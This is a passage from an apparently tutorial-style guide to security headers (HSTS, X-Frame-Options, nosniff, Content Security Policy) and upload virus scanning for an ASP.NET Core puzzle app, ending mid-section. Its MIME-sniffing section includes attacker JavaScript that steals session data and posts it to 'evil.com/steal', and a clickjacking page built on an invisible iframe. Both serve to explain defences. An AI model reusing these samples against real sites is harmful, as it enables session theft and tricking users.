### How HSTS Works

When a server responds with the `Strict-Transport-Security` header, it instructs the browser to:
1. Automatically convert all HTTP requests to HTTPS for that domain
2. Prevent users from clicking through certificate warnings
3. Remember this policy for a specified duration

**HSTS Header Format:**
```http
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

### Components Explained

1. **max-age**: Time in seconds the browser should remember to force HTTPS (31536000 = 1 year)
2. **includeSubDomains**: Apply policy to all subdomains
3. **preload**: Allow inclusion in browser's preload list

### Implementation in ASP.NET Core

**Basic HSTS Configuration (Program.cs):**
```csharp
var builder = WebApplication.CreateBuilder(args);

// Configure HSTS
builder.Services.AddHsts(options =>
{
    options.Preload = true;
    options.IncludeSubDomains = true;
    options.MaxAge = TimeSpan.FromDays(365);
    options.ExcludedHosts.Add("localhost");
    options.ExcludedHosts.Add("127.0.0.1");
});

var app = builder.Build();

// Apply HSTS in production only
if (!app.Environment.IsDevelopment())
{
    app.UseHsts();
    app.UseHttpsRedirection();
}
```

### Enterprise Implementation for CollaborativePuzzle

**Enhanced Security Configuration:**
```csharp
// Security headers middleware for comprehensive protection
public class SecurityHeadersMiddleware
{
    private readonly RequestDelegate _next;
    
    public SecurityHeadersMiddleware(RequestDelegate next)
    {
        _next = next;
    }
    
    public async Task InvokeAsync(HttpContext context)
    {
        // HSTS - Force HTTPS for 2 years
        context.Response.Headers.Add(
            "Strict-Transport-Security", 
            "max-age=63072000; includeSubDomains; preload");
            
        // Additional security headers
        context.Response.Headers.Add(
            "X-Content-Type-Options", 
            "nosniff");
            
        context.Response.Headers.Add(
            "X-Frame-Options", 
            "DENY");
            
        context.Response.Headers.Add(
            "X-XSS-Protection", 
            "1; mode=block");
            
        context.Response.Headers.Add(
            "Referrer-Policy", 
            "strict-origin-when-cross-origin");
            
        // Content Security Policy for puzzle application
        context.Response.Headers.Add(
            "Content-Security-Policy", 
            "default-src 'self'; " +
            "img-src 'self' data: https://puzzlestorage.blob.core.windows.net; " +
            "connect-src 'self' wss://puzzleapp.com https://api.puzzleapp.com; " +
            "script-src 'self' 'unsafe-inline' 'unsafe-eval'; " +
            "style-src 'self' 'unsafe-inline';");
            
        await _next(context);
    }
}
```

### HSTS Preload List

For maximum security, submit your domain to the HSTS preload list:

1. **Requirements:**
   - Valid certificate
   - Redirect HTTP to HTTPS
   - Serve HSTS header on HTTPS with:
     - `max-age` of at least 31536000 (1 year)
     - `includeSubDomains` directive
     - `preload` directive

2. **Submission Process:**
   ```bash
   # Test your site first
   curl -I https://puzzleapp.com
   
   # Check headers
   Strict-Transport-Security: max-age=63072000; includeSubDomains; preload
   
   # Submit at hstspreload.org
   ```

### Common HSTS Pitfalls and Solutions

**1. Development Environment Issues:**
```csharp
// Problem: HSTS cached for localhost
// Solution: Exclude development hosts
options.ExcludedHosts.Add("localhost");
options.ExcludedHosts.Add("127.0.0.1");
options.ExcludedHosts.Add("[::1]"); // IPv6 localhost
```

**2. Subdomain Certificate Issues:**
```yaml
# Problem: includeSubDomains without wildcard cert
# Solution: Either:
# - Use wildcard certificate: *.puzzleapp.com
# - Or remove includeSubDomains directive
# - Or ensure all subdomains have valid certs
```

**3. Testing HSTS:**
```bash
# Clear HSTS cache in Chrome
chrome://net-internals/#hsts

# Test with curl
curl -I https://puzzleapp.com | grep -i strict

# Validate preload eligibility
https://hstspreload.org/?domain=puzzleapp.com
```

### HSTS for Real-time Features

Special considerations for WebSocket and SignalR connections:

```csharp
// Configure SignalR with HTTPS enforcement
builder.Services.AddSignalR(options =>
{
    options.EnableDetailedErrors = false; // Production setting
})
.AddHubOptions<PuzzleHub>(options =>
{
    options.EnableDetailedErrors = false;
    options.HandshakeTimeout = TimeSpan.FromSeconds(15);
});

// WebSocket secure configuration
app.UseWebSockets(new WebSocketOptions
{
    KeepAliveInterval = TimeSpan.FromSeconds(30),
    AllowedOrigins = { "https://puzzleapp.com" } // HTTPS only
});
```

### Monitoring and Compliance

**1. Security Headers Test:**
```csharp
// Health check for security headers
public class SecurityHeadersHealthCheck : IHealthCheck
{
    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        using var client = new HttpClient();
        var response = await client.GetAsync("https://puzzleapp.com");
        
        if (!response.Headers.Contains("Strict-Transport-Security"))
        {
            return HealthCheckResult.Unhealthy("HSTS header missing");
        }
        
        var hstsValue = response.Headers.GetValues("Strict-Transport-Security").First();
        if (!hstsValue.Contains("max-age=") || !hstsValue.Contains("31536000"))
        {
            return HealthCheckResult.Degraded("HSTS max-age too short");
        }
        
        return HealthCheckResult.Healthy("HSTS properly configured");
    }
}
```

**2. Application Insights Telemetry:**
```csharp
// Track HTTPS vs HTTP requests
public class HttpsTrackingMiddleware
{
    public async Task InvokeAsync(HttpContext context)
    {
        var telemetry = context.Features.Get<RequestTelemetry>();
        if (telemetry != null)
        {
            telemetry.Properties["IsHttps"] = context.Request.IsHttps.ToString();
            telemetry.Properties["Protocol"] = context.Request.Protocol;
        }
        
        await _next(context);
    }
}
```

### Best Practices Summary

1. **Start with shorter max-age** (e.g., 300 seconds) and gradually increase
2. **Test thoroughly** before enabling includeSubDomains
3. **Monitor for mixed content** issues in browser console
4. **Use CSP reporting** to catch HTTPS migration issues
5. **Implement proper redirects** from HTTP to HTTPS
6. **Consider HSTS preload** for maximum protection
7. **Document rollback procedures** in case of issues

### Impact on CollaborativePuzzle Performance

```yaml
Benefits:
  - Eliminates redirect latency after first visit
  - Prevents protocol downgrade attacks
  - Improves SEO rankings
  - Builds user trust
  
Considerations:
  - Initial HTTPS setup complexity
  - Certificate management overhead
  - Potential CDN configuration changes
  - WebSocket secure connection requirements
```

## 12. Why include X-Frame-Options + X-Content-Type-Options? Are all X-* headers app-specific?

**X-* headers** are not all application-specific. They fall into two categories:
1. **Standardized security headers** (like X-Frame-Options, X-Content-Type-Options)
2. **Custom application headers** (prefixed with X- by convention, though this is deprecated)

### Understanding Security Headers

**X-Frame-Options** and **X-Content-Type-Options** are critical security headers that protect against different attack vectors:

#### X-Frame-Options

Prevents clickjacking attacks by controlling whether your site can be embedded in frames, iframes, or objects.

**Values:**
- `DENY` - No framing allowed
- `SAMEORIGIN` - Only same origin can frame
- `ALLOW-FROM uri` - Specific origin allowed (deprecated)

**Implementation in CollaborativePuzzle:**
```csharp
// Middleware to prevent clickjacking on puzzle pages
public class AntiClickjackingMiddleware
{
    private readonly RequestDelegate _next;
    
    public async Task InvokeAsync(HttpContext context)
    {
        // Puzzle game shouldn't be embedded in iframes
        context.Response.Headers.Add("X-Frame-Options", "DENY");
        
        // Modern alternative using CSP
        context.Response.Headers.Add(
            "Content-Security-Policy", 
            "frame-ancestors 'none';"
        );
        
        await _next(context);
    }
}
```

**Real-world Attack Scenario:**
```html
<!-- Malicious site trying to clickjack puzzle game -->
<html>
<head>
    <style>
        iframe {
            position: absolute;
            top: 0;
            left: 0;
            opacity: 0.001; /* Nearly invisible */
            z-index: 1000;
        }
        .fake-button {
            position: absolute;
            top: 100px;
            left: 100px;
            z-index: 1;
        }
    </style>
</head>
<body>
    <!-- Invisible iframe with puzzle game -->
    <iframe src="https://puzzleapp.com/puzzle/123"></iframe>
    
    <!-- Fake button user thinks they're clicking -->
    <button class="fake-button">Click for Free Prize!</button>
</body>
</html>
```

#### X-Content-Type-Options

Prevents MIME type sniffing attacks by forcing browsers to respect the declared Content-Type.

**Value:** Always `nosniff`

**Why It Matters:**
```csharp
// Without X-Content-Type-Options: nosniff
app.MapGet("/api/puzzle/{id}/data", async (Guid id) =>
{
    var puzzleData = await GetPuzzleData(id);
    
    // Returns JSON but browser might interpret as HTML if it contains <script>
    return Results.Text(puzzleData); // Dangerous without proper headers!
});

// With proper security headers
app.MapGet("/api/puzzle/{id}/data", async (Guid id) =>
{
    var puzzleData = await GetPuzzleData(id);
    
    return Results.Json(puzzleData)
        .WithHeaders(new Dictionary<string, string>
        {
            ["X-Content-Type-Options"] = "nosniff",
            ["Content-Type"] = "application/json; charset=utf-8"
        });
});
```

**MIME Sniffing Attack Example:**
```javascript
// Attacker uploads a file named "image.jpg" that contains:
<script>
    // Malicious JavaScript
    fetch('/api/user/sessions', {
        credentials: 'include'
    }).then(data => {
        // Send stolen session data to attacker
        fetch('https://evil.com/steal', {
            method: 'POST',
            body: JSON.stringify(data)
        });
    });
</script>

// Without nosniff, browser might execute this as JavaScript
// even though server says Content-Type: image/jpeg
```

### Complete Security Headers Implementation

**Comprehensive SecurityHeadersMiddleware for CollaborativePuzzle:**
```csharp
public class SecurityHeadersMiddleware
{
    private readonly RequestDelegate _next;
    private readonly ILogger<SecurityHeadersMiddleware> _logger;
    
    public SecurityHeadersMiddleware(
        RequestDelegate next, 
        ILogger<SecurityHeadersMiddleware> logger)
    {
        _next = next;
        _logger = logger;
    }
    
    public async Task InvokeAsync(HttpContext context)
    {
        // Remove server identification
        context.Response.Headers.Remove("Server");
        context.Response.Headers.Remove("X-Powered-By");
        
        // Core security headers
        var headers = new Dictionary<string, string>
        {
            // Prevent clickjacking
            ["X-Frame-Options"] = "DENY",
            
            // Prevent MIME sniffing
            ["X-Content-Type-Options"] = "nosniff",
            
            // XSS Protection (legacy but still useful)
            ["X-XSS-Protection"] = "1; mode=block",
            
            // Referrer Policy
            ["Referrer-Policy"] = "strict-origin-when-cross-origin",
            
            // Permissions Policy (replaces Feature-Policy)
            ["Permissions-Policy"] = "geolocation=(), microphone=(), camera=()",
            
            // HSTS (if HTTPS)
            ["Strict-Transport-Security"] = context.Request.IsHttps 
                ? "max-age=31536000; includeSubDomains" 
                : null,
                
            // Cache control for security
            ["Cache-Control"] = IsApiEndpoint(context) 
                ? "no-store, no-cache, must-revalidate" 
                : "public, max-age=3600"
        };
        
        // Content Security Policy with nonce for inline scripts
        var nonce = GenerateNonce();
        context.Items["CSP-Nonce"] = nonce;
        
        headers["Content-Security-Policy"] = BuildCSP(nonce, context);
        
        // Apply headers
        foreach (var (key, value) in headers.Where(h => h.Value != null))
        {
            context.Response.Headers[key] = value;
        }
        
        // Log security headers for monitoring
        _logger.LogDebug("Applied security headers to {Path}", context.Request.Path);
        
        await _next(context);
    }
    
    private string BuildCSP(string nonce, HttpContext context)
    {
        var cspBuilder = new StringBuilder();
        
        // Base policy
        cspBuilder.Append("default-src 'self'; ");
        
        // Scripts with nonce
        cspBuilder.Append($"script-src 'self' 'nonce-{nonce}' ");
        
        // SignalR requires eval for dynamic hub proxy
        if (context.Request.Path.StartsWithSegments("/puzzlehub"))
        {
            cspBuilder.Append("'unsafe-eval' ");
        }
        
        // Styles
        cspBuilder.Append("style-src 'self' 'unsafe-inline' https://fonts.googleapis.com; ");
        
        // Images including puzzle pieces from blob storage
        cspBuilder.Append("img-src 'self' data: blob: https://*.blob.core.windows.net; ");
        
        // WebSocket and API connections
        cspBuilder.Append("connect-src 'self' wss://puzzleapp.com https://api.puzzleapp.com ");
        cspBuilder.Append("wss://localhost:* https://localhost:*; "); // Dev
        
        // Fonts
        cspBuilder.Append("font-src 'self' https://fonts.gstatic.com; ");
        
        // Media for WebRTC
        cspBuilder.Append("media-src 'self' blob:; ");
        
        // Form actions
        cspBuilder.Append("form-action 'self'; ");
        
        // Frame ancestors (modern replacement for X-Frame-Options)
        cspBuilder.Append("frame-ancestors 'none'; ");
        
        // Upgrade insecure requests
        if (context.Request.IsHttps)
        {
            cspBuilder.Append("upgrade-insecure-requests; ");
        }
        
        // Report violations
        cspBuilder.Append("report-uri /api/csp-report; ");
        
        return cspBuilder.ToString().TrimEnd();
    }
    
    private string GenerateNonce()
    {
        var bytes = new byte[16];
        using var rng = RandomNumberGenerator.Create();
        rng.GetBytes(bytes);
        return Convert.ToBase64String(bytes);
    }
    
    private bool IsApiEndpoint(HttpContext context)
    {
        return context.Request.Path.StartsWithSegments("/api");
    }
}
```

### X-* Headers Reference

**Security-Related X-* Headers (Standardized):**
```yaml
X-Frame-Options:
  Purpose: Clickjacking protection
  Values: DENY, SAMEORIGIN
  Status: Standardized, being replaced by CSP frame-ancestors

X-Content-Type-Options:
  Purpose: MIME sniffing protection  
  Values: nosniff
  Status: Standardized, widely supported

X-XSS-Protection:
  Purpose: XSS filter control (legacy)
  Values: 0, 1, 1; mode=block
  Status: Deprecated but still used

X-DNS-Prefetch-Control:
  Purpose: Control DNS prefetching
  Values: on, off
  Status: Browser-specific but widely supported

X-Download-Options:
  Purpose: Prevent IE from executing downloads
  Values: noopen
  Status: IE-specific

X-Permitted-Cross-Domain-Policies:
  Purpose: Control cross-domain policy files
  Values: none, master-only, by-content-type, all
  Status: Adobe-specific for Flash/PDF
```

**Custom Application Headers Example:**
```csharp
// Custom headers for puzzle application
public class PuzzleApiHeaders
{
    // API versioning
    public const string ApiVersion = "X-Puzzle-API-Version";
    
    // Rate limiting info
    public const string RateLimitRemaining = "X-RateLimit-Remaining";
    public const string RateLimitReset = "X-RateLimit-Reset";
    
    // Request tracking
    public const string RequestId = "X-Request-Id";
    public const string CorrelationId = "X-Correlation-Id";
    
    // Puzzle-specific
    public const string PuzzleVersion = "X-Puzzle-Version";
    public const string PuzzleChecksum = "X-Puzzle-Checksum";
}

// Usage in API
app.MapGet("/api/puzzle/{id}", async (Guid id, HttpContext context) =>
{
    var puzzle = await GetPuzzle(id);
    
    // Add custom headers
    context.Response.Headers[PuzzleApiHeaders.ApiVersion] = "2.0";
    context.Response.Headers[PuzzleApiHeaders.PuzzleVersion] = puzzle.Version.ToString();
    context.Response.Headers[PuzzleApiHeaders.PuzzleChecksum] = puzzle.Checksum;
    
    return Results.Ok(puzzle);
});
```

### Testing Security Headers

**Automated Security Header Tests:**
```csharp
[Fact]
public async Task SecurityHeaders_ShouldBePresent_OnAllResponses()
{
    // Arrange
    var client = _factory.CreateClient();
    
    // Act
    var response = await client.GetAsync("/api/puzzles");
    
    // Assert
    response.Headers.Should().ContainKey("X-Content-Type-Options");
    response.Headers.GetValues("X-Content-Type-Options")
        .Should().ContainSingle("nosniff");
        
    response.Headers.Should().ContainKey("X-Frame-Options");
    response.Headers.GetValues("X-Frame-Options")
        .Should().ContainSingle("DENY");
        
    response.Headers.Should().ContainKey("Content-Security-Policy");
    response.Headers.Should().NotContainKey("Server");
}

[Fact]
public async Task ApiEndpoints_ShouldHave_NoCacheHeaders()
{
    // Arrange
    var client = _factory.CreateClient();
    
    // Act
    var response = await client.GetAsync("/api/user/profile");
    
    // Assert
    response.Headers.CacheControl.NoStore.Should().BeTrue();
    response.Headers.CacheControl.NoCache.Should().BeTrue();
    response.Headers.CacheControl.MustRevalidate.Should().BeTrue();
}
```

**Security Header Monitoring:**
```csharp
// Health check for security headers
public class SecurityHeadersHealthCheck : IHealthCheck
{
    private readonly IHttpClientFactory _httpClientFactory;
    private readonly string _baseUrl;
    
    public async Task<HealthCheckResult> CheckHealthAsync(
        HealthCheckContext context,
        CancellationToken cancellationToken = default)
    {
        var client = _httpClientFactory.CreateClient();
        var response = await client.GetAsync(_baseUrl);
        
        var missingHeaders = new List<string>();
        
        var requiredHeaders = new[]
        {
            "X-Content-Type-Options",
            "X-Frame-Options",
            "Strict-Transport-Security",
            "Content-Security-Policy"
        };
        
        foreach (var header in requiredHeaders)
        {
            if (!response.Headers.Contains(header))
            {
                missingHeaders.Add(header);
            }
        }
        
        if (missingHeaders.Any())
        {
            return HealthCheckResult.Unhealthy(
                $"Missing security headers: {string.Join(", ", missingHeaders)}");
        }
        
        return HealthCheckResult.Healthy("All security headers present");
    }
}
```

### Best Practices Summary

1. **Always include core security headers** (X-Frame-Options, X-Content-Type-Options)
2. **Use CSP as modern alternative** when possible
3. **Remove server identification headers** (Server, X-Powered-By)
4. **Test headers in automated tests**
5. **Monitor header presence in production**
6. **Document custom headers** in API documentation
7. **Consider browser compatibility** when using newer headers
8. **Use security header scanning tools** (securityheaders.com)

## 13. Define Content Security Policy

**Content Security Policy (CSP)** is a powerful security standard that helps prevent a wide range of attacks including Cross-Site Scripting (XSS), clickjacking, and other code injection attacks. It works by allowing you to create an allowlist of sources from which the browser can load and execute resources.

### How CSP Works

CSP operates on a principle of least privilege - by default, it blocks everything, and you explicitly allow what's needed. The browser enforces these policies, preventing unauthorized code execution even if an attacker manages to inject malicious content.

**Basic CSP Header Format:**
```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted-cdn.com; style-src 'self' 'unsafe-inline'
```

### CSP Directives Explained

#### Resource Directives
```yaml
default-src:
  Purpose: Fallback for other directives
  Example: default-src 'self'
  
script-src:
  Purpose: Controls JavaScript sources
  Example: script-src 'self' 'nonce-abc123' https://cdn.jsdelivr.net
  
style-src:
  Purpose: Controls CSS sources
  Example: style-src 'self' 'unsafe-inline' https://fonts.googleapis.com
  
img-src:
  Purpose: Controls image sources
  Example: img-src 'self' data: blob: https://*.blob.core.windows.net
  
connect-src:
  Purpose: Controls fetch, XMLHttpRequest, WebSocket, EventSource
  Example: connect-src 'self' wss://puzzleapp.com https://api.puzzleapp.com
  
font-src:
  Purpose: Controls font sources
  Example: font-src 'self' https://fonts.gstatic.com
  
media-src:
  Purpose: Controls audio/video sources
  Example: media-src 'self' blob:
  
object-src:
  Purpose: Controls <object>, <embed>, <applet>
  Example: object-src 'none'
  
frame-src:
  Purpose: Controls iframe sources
  Example: frame-src 'self' https://youtube.com
```

#### Navigation Directives
```yaml
form-action:
  Purpose: Controls form submission targets
  Example: form-action 'self' https://api.puzzleapp.com
  
frame-ancestors:
  Purpose: Controls who can embed this page (replaces X-Frame-Options)
  Example: frame-ancestors 'none'
  
navigate-to:
  Purpose: Controls navigation destinations
  Example: navigate-to 'self' https://puzzleapp.com
```

### CollaborativePuzzle CSP Implementation

**Comprehensive CSP for the Puzzle Application:**
```csharp
public class CspMiddleware
{
    private readonly RequestDelegate _next;
    private readonly ILogger<CspMiddleware> _logger;
    private readonly IWebHostEnvironment _environment;
    
    public CspMiddleware(
        RequestDelegate next, 
        ILogger<CspMiddleware> logger,
        IWebHostEnvironment environment)
    {
        _next = next;
        _logger = logger;
        _environment = environment;
    }
    
    public async Task InvokeAsync(HttpContext context)
    {
        // Generate nonce for inline scripts
        var nonce = GenerateNonce();
        context.Items["CSP-Nonce"] = nonce;
        
        // Build CSP based on environment and request path
        var csp = BuildCsp(context, nonce);
        
        // Apply CSP header
        context.Response.Headers["Content-Security-Policy"] = csp;
        
        // Report-only mode for testing
        if (_environment.IsDevelopment())
        {
            context.Response.Headers["Content-Security-Policy-Report-Only"] = csp;
        }
        
        await _next(context);
    }
    
    private string BuildCsp(HttpContext context, string nonce)
    {
        var policy = new CspPolicyBuilder();
        
        // Default policy
        policy.AddDirective("default-src", "'self'");
        
        // Scripts
        policy.AddDirective("script-src", 
            "'self'",
            $"'nonce-{nonce}'",
            "https://cdn.jsdelivr.net", // For libraries
            _environment.IsDevelopment() ? "'unsafe-eval'" : null // SignalR in dev
        );
        
        // Styles
        policy.AddDirective("style-src",
            "'self'",
            "'unsafe-inline'", // For dynamic styles
            "https://fonts.googleapis.com",
            "https://cdn.jsdelivr.net"
        );
        
        // Images
        policy.AddDirective("img-src",
            "'self'",
            "data:", // Base64 images
            "blob:", // Generated puzzle pieces
            "https://*.blob.core.windows.net", // Azure Storage
            "https://puzzlecdn.azureedge.net" // CDN
        );
        
        // Connections (fetch, WebSocket, etc.)
        policy.AddDirective("connect-src",
            "'self'",
            "wss://puzzleapp.com", // Production WebSocket
            "https://api.puzzleapp.com", // API
            "https://puzzleapp.com", // SignalR
            _environment.IsDevelopment() ? "wss://localhost:*" : null,
            _environment.IsDevelopment() ? "https://localhost:*" : null
        );
        
        // Fonts
        policy.AddDirective("font-src",
            "'self'",
            "https://fonts.gstatic.com"
        );
        
        // Media (for WebRTC)
        policy.AddDirective("media-src",
            "'self'",
            "blob:", // WebRTC streams
            "mediastream:" // Camera/microphone
        );
        
        // Objects
        policy.AddDirective("object-src", "'none'");
        
        // Frames
        policy.AddDirective("frame-src", "'none'");
        policy.AddDirective("frame-ancestors", "'none'");
        
        // Forms
        policy.AddDirective("form-action", "'self'");
        
        // Base URI
        policy.AddDirective("base-uri", "'self'");
        
        // Manifest
        policy.AddDirective("manifest-src", "'self'");
        
        // Workers
        policy.AddDirective("worker-src", 
            "'self'",
            "blob:" // For web workers processing puzzle pieces
        );
        
        // Upgrades
        if (!_environment.IsDevelopment())
        {
            policy.AddDirective("upgrade-insecure-requests");
        }
        
        // Reporting
        policy.AddDirective("report-uri", "/api/csp-report");
        policy.AddDirective("report-to", "csp-endpoint");
        
        return policy.Build();
    }
    
    private string GenerateNonce()
    {
        var bytes = new byte[16];
        using var rng = RandomNumberGenerator.Create();
        rng.GetBytes(bytes);
        return Convert.ToBase64String(bytes);
    }
}

// CSP Policy Builder helper
public class CspPolicyBuilder
{
    private readonly Dictionary<string, List<string>> _directives = new();
    
    public void AddDirective(string directive, params string?[] sources)
    {
        if (!_directives.ContainsKey(directive))
        {
            _directives[directive] = new List<string>();
        }
        
        _directives[directive].AddRange(
            sources.Where(s => !string.IsNullOrEmpty(s))!
        );
    }
    
    public string Build()
    {
        var parts = new List<string>();
        
        foreach (var (directive, sources) in _directives)
        {
            if (sources.Any())
            {
                parts.Add($"{directive} {string.Join(" ", sources)}");
            }
        }
        
        return string.Join("; ", parts);
    }
}
```

### CSP Violation Reporting

**Setting up CSP Violation Reporting:**
```csharp
// CSP Report endpoint
app.MapPost("/api/csp-report", async (HttpContext context) =>
{
    using var reader = new StreamReader(context.Request.Body);
    var report = await reader.ReadToEndAsync();
    
    var violation = JsonSerializer.Deserialize<CspViolationReport>(report);
    
    // Log the violation
    logger.LogWarning("CSP Violation: {ViolatedDirective} - {BlockedUri} on {DocumentUri}",
        violation?.CspReport?.ViolatedDirective,
        violation?.CspReport?.BlockedUri,
        violation?.CspReport?.DocumentUri);
    
    // Store in telemetry
    telemetryClient.TrackEvent("CSPViolation", new Dictionary<string, string>
    {
        ["ViolatedDirective"] = violation?.CspReport?.ViolatedDirective ?? "unknown",
        ["BlockedUri"] = violation?.CspReport?.BlockedUri ?? "unknown",
        ["DocumentUri"] = violation?.CspReport?.DocumentUri ?? "unknown",
        ["Referrer"] = violation?.CspReport?.Referrer ?? "none"
    });
    
    return Results.NoContent();
});

// CSP Violation Report model
public class CspViolationReport
{
    [JsonPropertyName("csp-report")]
    public CspReport? CspReport { get; set; }
}

public class CspReport
{
    [JsonPropertyName("violated-directive")]
    public string? ViolatedDirective { get; set; }
    
    [JsonPropertyName("blocked-uri")]
    public string? BlockedUri { get; set; }
    
    [JsonPropertyName("document-uri")]
    public string? DocumentUri { get; set; }
    
    [JsonPropertyName("referrer")]
    public string? Referrer { get; set; }
    
    [JsonPropertyName("script-sample")]
    public string? ScriptSample { get; set; }
}
```

### CSP for Different Scenarios

#### 1. Strict CSP (Maximum Security)
```csharp
// No inline scripts or styles allowed
var strictCsp = @"
    default-src 'none';
    script-src 'self';
    style-src 'self';
    img-src 'self';
    connect-src 'self';
    font-src 'self';
    object-src 'none';
    media-src 'none';
    frame-src 'none';
    frame-ancestors 'none';
    form-action 'self';
    base-uri 'self';
    manifest-src 'self';
";
```

#### 2. CSP with Nonces (Recommended)
```html
<!-- In Razor view -->
@{
    var nonce = Context.Items["CSP-Nonce"] as string;
}

<script nonce="@nonce">
    // This script will execute because it has the correct nonce
    console.log('Puzzle loaded');
</script>

<style nonce="@nonce">
    /* These styles will apply with the correct nonce */
    .puzzle-piece { cursor: move; }
</style>
```

#### 3. CSP for SignalR/WebSockets
```csharp
// SignalR requires special considerations
if (context.Request.Path.StartsWithSegments("/hubs"))
{
    policy.AddDirective("script-src", 
        "'self'",
        "'unsafe-eval'", // Required for SignalR dynamic proxy
        $"'nonce-{nonce}'"
    );
    
    policy.AddDirective("connect-src",
        "'self'",
        "wss://" + context.Request.Host,
        "https://" + context.Request.Host
    );
}
```

### Testing CSP

**Unit Tests for CSP:**
```csharp
[Fact]
public async Task Csp_ShouldBlockInlineScriptsWithoutNonce()
{
    // Arrange
    var response = await _client.GetAsync("/");
    
    // Act
    var cspHeader = response.Headers.GetValues("Content-Security-Policy").First();
    
    // Assert
    cspHeader.Should().Contain("script-src");
    cspHeader.Should().NotContain("'unsafe-inline'");
    cspHeader.Should().Contain("'nonce-");
}

[Fact]
public async Task Csp_ShouldAllowPuzzleImageSources()
{
    // Arrange
    var response = await _client.GetAsync("/puzzle/123");
    
    // Act
    var cspHeader = response.Headers.GetValues("Content-Security-Policy").First();
    
    // Assert
    cspHeader.Should().Contain("img-src");
    cspHeader.Should().Contain("blob:");
    cspHeader.Should().Contain("*.blob.core.windows.net");
}
```

**Browser Testing Tools:**
```javascript
// Console command to check current CSP
console.log(document.querySelector('meta[http-equiv="Content-Security-Policy"]')?.content);

// Monitor CSP violations
document.addEventListener('securitypolicyviolation', (e) => {
    console.error('CSP Violation:', {
        violatedDirective: e.violatedDirective,
        blockedURI: e.blockedURI,
        lineNumber: e.lineNumber,
        columnNumber: e.columnNumber
    });
});
```

### CSP Migration Strategy

**Gradual CSP Implementation:**
```csharp
public class CspMigrationMiddleware
{
    private readonly RequestDelegate _next;
    private readonly ILogger<CspMigrationMiddleware> _logger;
    
    public async Task InvokeAsync(HttpContext context)
    {
        // Phase 1: Report-only mode
        var reportOnlyCsp = BuildReportOnlyCsp();
        context.Response.Headers["Content-Security-Policy-Report-Only"] = reportOnlyCsp;
        
        // Phase 2: Permissive enforcement
        if (IsPhase2Enabled())
        {
            var permissiveCsp = BuildPermissiveCsp();
            context.Response.Headers["Content-Security-Policy"] = permissiveCsp;
        }
        
        // Phase 3: Strict enforcement
        if (IsPhase3Enabled())
        {
            var strictCsp = BuildStrictCsp();
            context.Response.Headers["Content-Security-Policy"] = strictCsp;
        }
        
        await _next(context);
    }
}
```

### Common CSP Pitfalls and Solutions

**1. Inline Scripts Breaking:**
```javascript
// Problem: Inline event handlers
<button onclick="movePiece(1)">Move</button>

// Solution: Use event listeners
<button id="move-piece-1">Move</button>
<script nonce="{{nonce}}">
    document.getElementById('move-piece-1').addEventListener('click', () => movePiece(1));
</script>
```

**2. Dynamic Style Issues:**
```javascript
// Problem: Setting styles directly
element.style.backgroundColor = 'red';

// Solution: Use CSS classes or nonce
element.classList.add('highlight');

// Or with nonce for dynamic styles
const style = document.createElement('style');
style.nonce = document.querySelector('meta[name="csp-nonce"]').content;
style.textContent = '.dynamic { background-color: red; }';
document.head.appendChild(style);
```

**3. Third-party Integration:**
```csharp
// Allow specific third-party services
policy.AddDirective("script-src",
    "'self'",
    "https://www.google-analytics.com",
    "https://www.googletagmanager.com"
);

policy.AddDirective("img-src",
    "'self'",
    "https://www.google-analytics.com",
    "https://www.googletagmanager.com"
);
```

### CSP Best Practices

1. **Start with Report-Only** mode to identify violations
2. **Use nonces** instead of 'unsafe-inline'
3. **Be specific** with source allowlists
4. **Monitor violations** continuously
5. **Document your CSP** for team members
6. **Test thoroughly** across browsers
7. **Update regularly** as requirements change
8. **Use CSP evaluator tools** (csp-evaluator.withgoogle.com)

### Performance Impact

```yaml
Benefits:
  - Prevents XSS attacks effectively
  - Reduces attack surface
  - Improves security posture
  - Can improve performance by blocking unwanted resources
  
Considerations:
  - Initial setup complexity
  - Ongoing maintenance required
  - May break legacy code
  - Requires careful third-party integration
  - Nonce generation adds minimal overhead
```

## 14. How do I implement virus scanning easily with Azure for file uploads? Is there a cloud-agnostic way or service?

Virus scanning is crucial for any application accepting file uploads. For the CollaborativePuzzle application, users upload puzzle images that need to be scanned before processing.

### Azure-Native Solutions

#### 1. Azure Defender for Storage

**Automatic Malware Scanning (Preview):**
```csharp
// Enable in Bicep/ARM template
resource storageAccount 'Microsoft.Storage/storageAccounts@2021-09-01' = {
  name: 'puzzlestorage'
  properties: {
    defenderForStorageSettings: {
      isEnabled: true
      malwareScanningSettings: {
        scanResultsEventGridTopicResourceId: eventGridTopic.id
        capGBPerMonth: 5000
      }
    }
  }
}
```

**Processing Scan Results:**
```csharp
// Event Grid handler for scan results
public class MalwareScanResultHandler
{
    private readonly ILogger<MalwareScanResultHandler> _logger;
    private readonly IBlobStorageService _blobStorage;
    
    [Function("ProcessMalwareScanResult")]
    public async Task Run([EventGridTrigger] EventGridEvent eventGridEvent)
    {
        var scanResult = eventGridEvent.Data.ToObjectFromJson<MalwareScanResult>();
        
        if (scanResult.ScanResultType == "Malicious")
        {
            _logger.LogWarning("Malware detected in file: {FileName}", scanResult.BlobUri);
            
            // Move to quarantine container
            await _blobStorage.MoveToQuarantineAsync(scanResult.BlobUri);
            
            // Notify user
            await NotifyUserOfMalwareAsync(scanResult.UploadedBy);
        }
    }
}
```

#### 2. Azure Content Moderator

**Integration for Image Scanning:**
```csharp
public class AzureContentModeratorService : IVirusScanService
{
    private readonly ContentModeratorClient _client;
    private readonly ILogger<AzureContentModeratorService> _logger;
    
    public AzureContentModeratorService(IConfiguration configuration)
    {
        _client = new ContentModeratorClient(new ApiKeyServiceClientCredentials(
            configuration["ContentModerator:ApiKey"]))
        {
            Endpoint = configuration["ContentModerator:Endpoint"]
        };
    }
    
    public async Task<ScanResult> ScanFileAsync(Stream fileStream, string fileName)
    {
        try
        {
            // Scan for adult/racy content and malware
            var result = await _client.ImageModeration.EvaluateFileInputAsync(fileStream);
            
            return new ScanResult
            {
                IsClean = !result.IsImageAdultClassified.GetValueOrDefault() &&
                         !result.IsImageRacyClassified.GetValueOrDefault(),
                ThreatType = result.IsImageAdultClassified.GetValueOrDefault() ? "Adult Content" : null,
                Confidence = result.AdultClassificationScore.GetValueOrDefault()
            };
        }
        catch (Exception ex)
        {
            _logger.LogError(ex, "Error scanning file {FileName}", fileName);
            throw;
        }
    }
}
```

### Cloud-Agnostic Solutions

#### 1. ClamAV Integration

**Docker-based ClamAV Service:**
```yaml
